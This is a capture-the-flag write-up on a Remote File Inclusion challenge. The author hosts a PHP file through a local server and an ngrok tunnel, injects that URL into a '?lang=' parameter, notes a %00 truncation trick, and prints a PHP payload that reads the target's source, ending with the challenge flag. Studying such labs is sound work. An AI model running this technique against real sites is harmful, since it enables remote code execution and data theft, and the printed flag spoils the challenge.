 ```yaml
---
layout: default
title: Remote-File-Inclusion
---
```


I set up an http server on my local machine using this line: `python3 -m http.server 678` (port 678)
![python server](./images/Remote-File-Inclusion_set_server.png)

And then, I set ngrok tunnel, using this line: `ngrok http 678` (port 678)
![ngrok tunnel](./images/Remote-File-Inclusion_ngrok.png)

Now, let's try and give this `https://7a7fe756011a.ngrok-free.app/` (don't forget `/` at the end)

```
?lang=https://7a7fe756011a.ngrok-free.app/
```

we get this error message:  
```
Warning: include(https://7a7fe756011a.ngrok-free.app/_lang.php): failed to open stream: HTTP request failed! HTTP/1.0 404 Not Found
 in /challenge/web-serveur/ch13/index.php on line 18

Warning: include(): Failed opening 'https://7a7fe756011a.ngrok-free.app/_lang.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch13/index.php on line 18
```

So, let's add our php code in this file `_lang.php` (notice we can also append `%00` and then ignore `_lang.php`)

this will be our code:
```php
<?php
    echo file_get_contents("index.php");
?>
```
![FINAL](./images/Remote-File-Inclusion_FINAL.png)

**Flag:** ***`R3m0t3_iS_r3aL1y_3v1l`***
